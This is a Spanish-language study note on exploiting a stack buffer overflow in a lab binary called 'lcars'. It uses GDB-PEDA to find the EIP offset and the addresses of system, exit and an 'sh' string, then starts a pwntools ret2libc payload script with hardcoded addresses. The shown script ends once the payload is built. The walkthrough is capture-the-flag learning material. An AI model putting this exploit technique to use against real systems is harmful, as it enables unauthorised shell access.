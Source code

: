 >Ver protecciones del binario: checksec (binary)
### GDB-PEDA
Para ver el buffer y ver lo que vale EIP se puede ejecutar gdb.
1. Lanzamos 300 A para ver como el programa se corrompe
gdb
```
r
- User input: <300*A>
```
![[Pasted image 20250219151101.png]]
2. Descubrir cuantas A hay que meter para sobrescribir el EIP (offset)
```
pattern create 800
```
![[Pasted image 20250219152212.png]]
3. Saber cuanto es el offset
```
pattern offset $eip
```
![[Pasted image 20250219152248.png]]

### ret2libc
Conseguir que el EIP apunte a -> system_addr + exit_addr + bin_sh_addr
1. Lanzamos gdb en la maquina victima
```
gdb ./lcars -q
```
2. Miramos funciones
```
> info functions
```
3.  breakpoint en main
```
b *main
```
4. Ejecutar el programa
```
r
```
5. Buscar la direccion de buffer de system, exit y sh
```
p system
p exit
find &system,+9999999,"sh"
```
![[Pasted image 20250219153043.png]]

### Automatizar el buffer overflow
``` python
#!/usr/bin/python3

from pwn import *

def bufferOverflow():
	offset = 212 # Donde empieza el EIP
	junk = b"A"*offset # Basura para meter antes de sobrescribir el EIP

	system_addr = p32(0xf7e4c060) # Direccion obtenida de system
	exit_addr = p32(0xf7e3faf0) # Direccion obtenida de exit
	sh_addr = p32(0xf7f6ddd5) # Una direccion obtenida de sh

	payload = junk + system_addr + exit_addr + sh_addr

```